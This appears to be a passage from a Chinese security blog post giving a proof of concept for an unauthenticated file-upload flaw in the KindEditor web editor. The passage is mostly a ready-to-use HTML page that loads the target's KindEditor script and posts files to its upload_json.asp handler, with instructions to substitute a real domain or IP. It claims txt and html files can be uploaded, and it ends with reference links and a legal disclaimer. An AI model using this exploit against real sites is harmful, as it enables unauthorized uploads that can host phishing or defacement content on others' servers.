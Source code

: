 **上传poc**  
  
Target替换成实际的域名或者IP  
```
<html><head>
<title>Uploader By ICE</title>
<script src="http://[Target]/kindeditor/kindeditor-min.js"></script>
<script>
KindEditor.ready(function(K) {
var uploadbutton = K.uploadbutton({
button : K('#uploadButton')[0],
fieldName : 'imgFile',
url : 'http://[Target]/kindeditor/php/upload_json.asp?dir=file',
afterUpload : function(data) {
if (data.error === 0) {
var url = K.formatUrl(data.url, 'absolute');
K('#url').val(url);}
},
});
uploadbutton.fileBox.change(function(e) {
uploadbutton.submit();
});
});
</script></head><body>
<div class="upload">
<input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
<input type="button" id="uploadButton" value="Upload" />
</div>
</body>
</html>
```  
  
打开即可上传txt和html文件  
  
![1734426463_67613f5fc921c955d0d3a.png!small?1734426464209](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Rzo6rPw2nBxgkSlMo2mNeMX7DIt5NRh16TkW8Eeruyn3dVcNGicKnic3Niahp36xqTsK28ib7IDSxyDfxC73tPVzFw/640?wx_fmt=jpeg&from=appmsg "")  
## 参考链接  
  
https://www.cnblogs.com/zhibing/p/16893839.html#Ueditor_3  
  
https://blog.csdn.net/qq_45813980/article/details/126866682  
  
  
免责声明  
  
1.一般免责声明：  
本文所提供的技术信息仅供参考，不构成任何专业建议。读者应根据自身情况谨慎使用且应遵守《中华人民共和国网络安全法》，作者及发布平台不对因使用本文信息而导致的任何直接或间接责任或损失负责。  
  
2. 适用性声明：  
文中技术内容可能不适用于所有情况或系统，在实际应用前请充分测试和评估。若因使用不当造成的任何问题，相关方不承担责任。  
  
3. 更新声明：  
技术发展迅速，文章内容可能存在滞后性。读者需自行判断信息的时效性，因依据过时内容产生的后果，作者及发布平台不承担责任。  
  
  
  

